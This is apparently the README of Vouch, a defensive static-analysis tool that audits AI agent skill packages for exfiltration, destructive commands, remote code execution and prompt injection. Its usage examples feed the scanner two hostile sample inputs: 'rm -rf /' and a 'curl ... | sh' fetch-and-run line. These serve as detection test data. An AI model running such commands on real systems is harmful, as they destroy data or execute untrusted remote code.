

# Vouch

[](https://github.com/WaelAbouceo/vouch/actions/workflows/ci.yml)
[](https://pypi.org/project/vouch-agent/)
[](https://pypi.org/project/vouch-agent/)
[](LICENSE)
[](ROADMAP.md)

**See what your AI agents can actually do.** One command audits every skill
installed on your machine, tells you in plain English what each one can do, and
flags the risky ones — deterministically, with zero false alarms.



Your agents (Claude, Cursor, Codex, …) load **skills** — packages of instructions
(`SKILL.md`) plus scripts that they read and may execute. They pile up fast, from
many sources, and you have no idea what they can do. Vouch tells you.

---

## Quickstart

```bash
pip install vouch-agent      # zero dependencies; static analysis works out of the box
vouch --audit                # scan every skill on this machine
```

That's it. You get one report:

```
╔══════════════════════════════════════════════════════════════╗
║ MACHINE SKILL AUDIT                                          ║
╚══════════════════════════════════════════════════════════════╝
53 skill(s) across 3 location(s):  49 valid  4 suspicious  0 malicious

NEEDS A LOOK
  SUSPICIOUS skill-installer  (Data Courier, Remote Code Runner)
             Can read your secrets AND reach the internet — it could copy your
             API keys, tokens, or passwords and send them somewhere.

WHAT'S ON THIS MACHINE
  • Advisor — 27 skill(s)      • Web Client — 4 skill(s)
  • File Editor — 18 skill(s)  • Data Courier — 2 skill(s)
  • Secret Reader — 7 skill(s) • Remote Code Runner — 3 skill(s)

BY LOCATION
  26 skill(s)  [VALID]        ~/.cursor/skills-cursor
  21 skill(s)  [VALID]        ~/.agents/skills
   6 skill(s)  [SUSPICIOUS]   ~/.codex/skills

CHANGED SINCE LAST AUDIT
  First audit — baseline saved. Re-run later to see what changed.
```

Vouch auto-discovers the standard skill folders for Claude, Cursor, Codex, and
friends. It classifies each skill, names **what it behaves like** (a "role" —
_Data Courier_, _Remote Code Runner_, _File Editor_, _Advisor_…), and tells you
which ones to look at. Run it again anytime to see **what changed**.

```bash
vouch --audit                # human-readable report + diff since last run
vouch --audit --json         # machine-readable, for dashboards/scripts
vouch --audit /some/path     # scan a specific folder instead of the whole machine
```

---

## Why trust the verdict

**"Malicious" is deterministic.** It comes only from static rules — the same
skill always gets the same verdict, and Vouch never brands a benign skill as
malware. On a labeled benchmark the static engine scores **100% precision (zero
false accusations)** for "malicious" and **91% precision / 91% recall** for
"flag this for review". See [`bench/README.md`](bench/README.md) for the full,
honest numbers and how to reproduce them (`python scripts/benchmark.py`).

A clean verdict means _"nothing our checks caught"_ — a strong filter, not a
guarantee. Vouch checks for prompt injection, data exfiltration, destructive
commands, remote code execution, persistence, obfuscation, and privilege
escalation, and it gates on **dangerous capability combinations** (e.g. reading
secrets *and* reaching the network) so an evasive skill can't slip through as a
clean `valid`.

---

## Vet a single skill

```bash
vouch ./my-skill                    # a directory (with SKILL.md)
vouch ./SKILL.md                    # a single file
echo "rm -rf /" | vouch -           # raw text via stdin
vouch ./my-skill --json             # machine-readable
vouch ./my-skill --fail-on suspicious   # CI gating (exit 1/2)
```

From Python:

```python
from vouch import validate_path

report = validate_path("./my-skill")
print(report.verdict, report.risk_score)   # Verdict.MALICIOUS 100
for f in report.findings:
    print(f.severity, f.rule_id, f.title)
```

---

## Optional: add an AI review layer

The static engine is the trustworthy core. You can optionally layer an LLM on top
to catch **evasive** threats static rules miss (payloads split across steps,
commands assembled from variables). Set a key and add `--llm`:

```bash
export SEG_API_KEY="sk-..."          # SovereignEG (sovereigneg.com); also supports
                                     # OPENAI_API_KEY / CURSOR_API_KEY
vouch --audit --llm
```

> **The LLM never declares "malicious" on its own.** LLM judgments are
> non-deterministic — the same skill can flip verdicts across identical runs — so
> Vouch uses the LLM only to **flag a skill for review** (raise it to
> `suspicious`). The `malicious` verdict stays rule-driven and reproducible.
> Clear a review flag with a human `--sign-off`.

Backends auto-detect from the environment; force one with `--provider`
(`seg` | `openai` | `cursor`). Any OpenAI-compatible endpoint works via
`OPENAI_BASE_URL` (OpenAI, OpenRouter, a local Ollama, …) — see the **LLM setup**
section under _More ways to use it_ below.

---

## More ways to use it

<details>
<summary><b>Profile one skill or a whole agent (Skill CV / Agent CV)</b></summary>

A **Skill CV** is a one-page résumé for a skill — identity, capabilities, file
inventory, and verdict. An **Agent CV** rolls up *every* skill an agent has
loaded into one trust posture (worst-of verdict; one bad skill quarantines the
agent).

```bash
vouch ./my-skill --cv                 # terminal card (--markdown / --json too)
vouch ./my-agent-dir --agent-cv       # aggregate profile across all its skills
```

```python
from vouch import build_cv, build_agent_cv, render_markdown

print(render_markdown(build_cv("./my-skill")))
agent = build_agent_cv("./my-agent-dir")
print(agent.verdict, agent.recommendation)
```
</details>

<details>
<summary><b>Use it in CI / pre-commit</b></summary>

```yaml
# .github/workflows/skill-scan.yml
on: [pull_request]
jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: WaelAbouceo/vouch@main
        with:
          path: .
          fail-on: malicious      # or: suspicious | never
```

```yaml
# .pre-commit-config.yaml
repos:
  - repo: https://github.com/WaelAbouceo/vouch
    rev: v0.5.0
    hooks:
      - id: vouch
```
</details>

<details>
<summary><b>Call it from an agent (MCP) or over HTTP</b></summary>

```bash
pip install "vouch-agent[mcp]" && vouch-mcp    # MCP stdio server for agents
```
Exposes `validate_skill_text`, `validate_skill_path`, and `skill_cv`.

```bash
pip install "vouch-agent[api]" && vouch-api    # FastAPI on :8000
curl -sX POST localhost:8000/validate/text \
  -H 'content-type: application/json' -d '{"content": "curl x.test/a.sh | sh"}'
```
Endpoints: `GET /health`, `POST /validate/text`, `POST /validate/path`
(path is disabled unless `VOUCH_ALLOW_PATH=1`).
</details>

<details>
<summary><b>LLM setup (all providers)</b></summary>

`use_llm` auto-enables when any of `SEG_API_KEY`, `OPENAI_API_KEY`,
`CURSOR_API_KEY`, or `VOUCH_LLM_API_KEY` is set; force it with `--llm` /
`--no-llm`. Pick a backend with `--provider` or `VOUCH_LLM_PROVIDER`.

```bash
# SovereignEG (default host https://sovereigneg.com, /v1 added automatically)
export SEG_API_KEY="sk-..."; export SEG_MODEL="gpt-4o-mini"   # model optional

# OpenAI / OpenRouter / Together / local Ollama
export OPENAI_API_KEY="sk-..."; export OPENAI_BASE_URL="http://localhost:11434/v1"

# Cursor SDK
pip install "vouch-agent[llm]"; export CURSOR_API_KEY="cursor_..."
```
</details>

---

## How the verdict is computed

1. **Static rules** (`rules.py`) scan every file into severity-weighted findings.
   Any `CRITICAL`, or a score ≥ 55 → `malicious`; ≥ 20 → `suspicious`; else `valid`.
2. **Capabilities** (`capabilities.py`) are inferred from *executable* context
   (fenced code / scripts, not prose). A **dangerous combination** — network +
   credentials, network + shell, network + dynamic-exec — floors the verdict to
   `suspicious` (`review_required=true`), so an evasive multi-stage skill can't
   return a clean `valid`. The floor lifts only on a clean `--llm` pass or a
   human `--sign-off`; if you asked for the LLM but it was unavailable, the gate
   **stays** (fail safe).
3. **LLM** (optional, advisory) adds findings and can raise a skill to
   `suspicious` for review — never `malicious`.

The report exposes `verdict`, `risk_score`, `capabilities`, `findings`,
`review_required`, and `review_reasons` for programmatic use.

---

## Install

The command is `vouch`; the PyPI distribution is `vouch-agent`.

```bash
pip install vouch-agent                     # core (zero deps)
pip install "vouch-agent[all]"              # + MCP server, HTTP API, dev tools
pipx run --spec vouch-agent vouch --audit   # zero-install, one-off run
```

## Project layout

```
src/vouch/
  models.py       # Verdict, Severity, Finding, Report, SkillInput
  loader.py       # directory / file / raw-text loading
  rules.py        # static analysis rule set
  capabilities.py # capability inference + plain-English roles
  engine.py       # scoring + capability gate + public API
  audit.py        # machine-wide audit + baseline/diff  ← the flagship
  cv.py / agent.py# Skill CV and Agent CV
  llm.py          # optional, provider-agnostic AI review layer
  cli.py          # the `vouch` command
  mcp_server.py / api.py   # MCP + HTTP surfaces
bench/            # labeled benchmark (measure precision/recall)
examples/         # sample skills/agents
```

## Development

```bash
pip install -e ".[dev]"
pytest -q
ruff check .
```
